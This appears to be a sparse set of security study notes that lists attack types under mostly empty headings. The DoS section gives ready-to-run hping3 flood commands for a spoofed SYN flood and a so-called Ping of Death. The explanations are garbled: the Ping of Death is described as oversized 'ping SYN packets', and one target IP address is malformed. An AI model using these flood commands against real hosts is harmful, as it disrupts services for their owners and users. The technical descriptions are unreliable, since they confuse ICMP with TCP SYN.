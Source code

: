 ## Physical Attack
Keystroke injection circuitry

## Adversarial Artificial Intelligence AI
Mislead ML Models

## Injection Flaws


## Cross-Site SCripting XSS Attacks


## URL Parameter tampering attacks

## Directory Traversal attack

## Cross-Site Request Forgery Attack CSRF

## DNS Amplification Attack

## DoS Attack 
Application-Level 
### SYN Flooding
Sends SYN packets spoofing another machine by continually sending SYN connection request packets.
```bash
hping3 -S 10.10.12 -a 10.10.19 -p 22 --flood
```
### Ping Of Death

Sends an overflow of ping SYN packets size above 65535 bytes, which halts the machine and makes it stop working
```bash
# Attacking a web server
hping3 -d 65538 -S -p 21 --flood 10.10.1.16 
```


## XML External Entity XXE Injection

## Watering hole attack

## Application Level session Hijacking Sesson Replay Attack

## API Attacks
